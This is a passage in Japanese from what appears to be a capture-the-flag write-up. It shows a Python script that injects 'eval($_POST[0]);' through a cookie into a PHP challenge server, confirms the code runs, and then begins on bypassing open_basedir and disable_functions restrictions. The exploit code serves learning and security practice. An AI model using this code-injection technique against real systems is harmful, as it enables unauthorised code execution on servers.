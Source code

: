 これを利用して、確かに `$_COOKIE[0]` が実行されているか確認する Python スクリプトを書きます。

```python
import requests
import urllib.parse

code = '''
echo "yay"
'''

URL = 'http://(省略)/?+cmd=(先程生成したコード)'

r = requests.post(URL, cookies={
  '0': urllib.parse.quote('eval($_POST[0]);')
}, data={
  '0': code
})
print(r.text)
```

実行してみると、無事にサーバで `echo "yay";` というコードが実行されていることが確認できました。

```
$ python test.py
yay
```

#### `open_basedir` バイパス
試しに `passthru('ls');` や `shell_exec('ls');` を実行してみましたが、反応がありません。`phpinfo();` で `disable_functions` によってこれらの関数の実行が制限されていないか確認すると、かなりの数の関数の仕様が制限されていることがわかります。`disable_classes` にもかなりの数のクラスが設定されています。

![ほとんどの関数が使えないじゃん…](../images/2021-03-22_w3f2.png)
